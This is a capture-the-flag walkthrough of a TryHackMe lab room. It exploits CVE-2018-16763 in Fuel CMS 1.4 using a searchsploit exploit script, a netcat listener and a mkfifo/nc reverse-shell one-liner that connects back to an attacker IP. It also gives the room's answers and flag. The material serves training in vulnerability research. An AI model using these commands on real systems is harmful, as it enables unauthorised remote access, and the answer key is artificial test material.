








# [Vulnerability Capstone](https://tryhackme.com/r/room/vulnerabilitycapstone)



[Vulnerability Capstone](https://tryhackme.com/r/room/vulnerabilitycapstone) is listed as an easy room. Apply the knowledge gained throughout the Vulnerability Module in this challenge room. An overview of what we’ll be using is listed here:  

* Browser
* Searchsploit
* Script Exploit

## Task 1 - Introduction


Summarise the skills learnt in this module by completing this capstone room for the "Vulnerability Research" module. 

Ackme Support Incorporated has recently set up a new blog. Their developer team have asked for a security audit to be performed before they create and publish articles to the public. 

It is your task to perform a security audit on the blog; looking for and abusing any vulnerabilities that you find.

### Answer the questions below

* Let's get hacking

## Task 2 - Exploit the Machine (Flag Submission)

Deploy the vulnerable machine attached to this by pressing the green "Start Machine" button. It is **recommended** that you use the TryHackMe AttackBox to complete this room.

Allow **five minutes** to pass before attempting to attack the vulnerable machine **MACHINE_IP**

### Answer the questions below

* Deploy the vulnerable machine attached to this task & wait five minutes before visiting the vulnerable machine.

	

* What is the name of the application running on the vulnerable machine?

	`Fuel CMS`

	

* What is the version number of this application?
	
	`1.4`

* What is the number of the CVE that allows an attacker to remotely execute code on this application?

	Format: CVE-XXXX-XXXXX

	`CVE-2018-16763`

	```
	searchsploit -j 'Fuel CMS' | grep CVE
	```

	

* Use the resources & skills learnt throughout this module to find and use a relevant exploit to exploit this vulnerability.

	Note: There are numerous exploits out there that can be used for this vulnerability (some more useful than others!)

	Download script from `searchsploit`

	```
	searchsploit -m 50477.py
	```

	

* What is the value of the flag located on this vulnerable machine? This is located in /home/ubuntu on the vulnerable machine.

	`THM{ACKME_BLOG_HACKED}`

	* Create listener on attacker machine
	
		```
		nc -nvlp 8080
		```

		

	* Run script exploit `50477.py`
	
		```
		python3 50477.py -u http://10.10.21.183/
		```

		

	* Type script command to get reverse shell
	
		```
		rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.95.148 8080 >/tmp/f
		```

	* Get the shell and flag
	
		